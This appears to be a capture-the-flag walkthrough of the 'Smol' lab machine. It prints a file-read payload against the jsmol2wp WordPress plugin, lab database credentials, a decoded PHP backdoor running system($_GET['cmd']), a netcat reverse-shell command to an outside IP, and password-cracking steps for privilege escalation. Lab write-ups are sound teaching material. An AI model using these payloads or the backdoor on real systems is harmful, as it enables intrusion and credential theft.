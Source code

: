 ```yaml
---

title: "Smol"  
date: "2025-4-16"  
thumbnail: "/assets/img/thumbnail/smol.png"

---
```


# Smol
---
**Challenges Difficulty: Medium**  
**Category: Privilege Escalation**

---
## Initial Access
Get a cup of coffee ☕ first this will be a little bit long walkthrough 😊
From the end of the page on **http://www.smol.thm** or from **wappalyzer** this website is using **WordPress**
![image](/assets/img/posts/smol/Screenshot_3.png)
so start to scan it with wpscan
```
wpscan --url [http://www.smol.thm](http://www.smol.thm/)
```
from the scan result there is a plugin called **jsmol2wp** where did i here this name before🤔 
![image.png](/assets/img/posts/smol/image%2016.png)
Yes this plugin is vulnerable to SSRF [wpscan](https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/   )
![image.png](/assets/img/posts/smol/image%2017.png)
let's try this payload on our smol.thm
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
in the **wp-config.php** file we found a credentials for a user called **wpuser**
![image.png](/assets/img/posts/smol/image%2018.png)

```
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );
```

from the comment section we can get to a login page
![image](/assets/img/posts/smol/Screenshot_1.png)

![image.png](/assets/img/posts/smol/image%2019.png)
and the creds are working 
![image.png](/assets/img/posts/smol/image%2020.png)
in this file note the first important line that refaces to **Hello Dolly** plugin 
![image.png](/assets/img/posts/smol/image%2021.png)

just for fun 😂

![image.png](/assets/img/posts/smol/image%2022.png)
back to our work we should review hello.php file
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```
in this code we can see a part of the code that uses eval which is a vulnerable function but the reset of the line is base64 encoded 
![image.png](/assets/img/posts/smol/image%2023.png)
from the decoding result the statement is 
```
if (isset($_GET["cmd"])) {
    system($_GET["cmd"]);
}
``` 
![image.png](/assets/img/posts/smol/image%2024.png)
adding the cmd parameter we can execute system commands 
![image.png](/assets/img/posts/smol/image%2025.png)
now we want to get a shell from this
![image.png](/assets/img/posts/smol/image%2026.png)

```
busybox nc 10.11.130.37 4444 -e sh
```
and we got our initial access 🎉
## Privilege Escalation
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
As we know that there is a database running let's try to get another user creds from it  
![image.png](/assets/img/posts/smol/image%2027.png)
Cracking this hashes with john we got a password that is obviously for the user diego
![image.png](/assets/img/posts/smol/image%2028.png)

![image.png](/assets/img/posts/smol/image%2029.png)
what i had checked:
❌ sudo -l
❌ /cat /etc/crontab
❌ suid
❌ capabilities

in the home of the user **think** you can find an ssh key that you can use to connect
![image.png](/assets/img/posts/smol/image%2033.png)
in **gege** home there is a .zip file that you can access as other but this file is password protected 
![image.png](/assets/img/posts/smol/image%2035.png)
you can use john to crack this file 
![image.png](/assets/img/posts/smol/image%2034.png)
inside this compressed file there is a **wp-config.php** file that has the credential of **xavi** maybe it's our lucky user 
![image.png](/assets/img/posts/smol/image%2036.png)
finally we escalated our privilege 😮‍💨  
![image.png](/assets/img/posts/smol/image%2037.png)
Great to see you at the end of this rich challenge😊. keep it up 💪
![image.png](/assets/img/posts/smol/image%2038.png)